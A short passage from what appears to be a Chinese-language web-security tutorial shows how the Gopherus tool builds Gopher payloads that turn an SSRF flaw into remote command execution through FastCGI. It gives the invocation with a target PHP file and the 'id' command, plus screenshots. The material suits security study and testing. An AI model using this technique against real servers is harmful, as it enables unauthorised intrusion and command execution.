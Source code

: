 ### 利用 Gopherus 攻击

-   项目地址：[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

[Gopherus](https://github.com/tarunkant/Gopherus) 这个工具相比上一个更加方便一下，该工具能生成 Gopher 有效负载，用来利用 SSRF 进行 RCE：

[![](assets/1698897074-d41c92d8bbc6d92b635e69a3a58eab30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134740-907396ee-b2e5-1.png)

下面我们就利用这个工具来执行命令：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 # 这里输入的是一个已知存在的 php 文件
id
```

[![](assets/1698897074-7a45055feb718e56d2934f7948de981f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134741-91008b1c-b2e5-1.png)
